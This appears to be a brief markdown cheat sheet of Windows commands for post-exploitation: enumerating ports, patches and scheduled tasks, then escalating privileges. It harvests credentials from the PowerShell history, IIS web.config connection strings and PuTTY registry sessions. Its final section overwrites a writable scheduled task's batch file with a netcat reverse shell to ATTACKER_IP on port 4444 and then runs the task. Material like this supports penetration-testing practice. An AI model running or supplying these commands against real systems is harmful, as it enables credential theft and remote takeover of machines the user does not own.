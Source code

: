 # Ports Listenning
`Get-NetTCPConnection | Where-Object -Property state -Match Listen `
# check installed updates
`wmic qfe get Caption, Description`
# Patches applied
`Get-HotFix`
`Get-Hotfix -Id KB4023834`
# Schedule Tasks
`Get-ScheduledTask -TaskName new-sched-task`
`schtasks /query /tn vulntask /fo list /v`
# Find a file in the computer
`Get-ChildItem -Path C:\ -Include *interesting-fle.txt* -File -Recurse -ErrorAction SilentlyContinue`
# Get Contents of file
`Get-Content "C:\Program Files\interestingfile.txt.txt"`

###### Privilege escalation #########
# Powershell history
`type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt`
# IIS Configuration file (passwords for databases)
`type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config | findstr connectionString`
# Retrieve Credentials from PuTTY 
`reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s`

# Scheduled Tasks
List Scheduled tasks 
`schtasks /query /tn vulntask /fo list /v`
Check the file permissions (if we can modify or overwite)
`icacls c:\tasks\schtask.bat`
Modify the file and insert the payload
`echo c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 4444 > C:\tasks\schtask.bat`
# Run the task
`schtasks /run /tn vulntask`
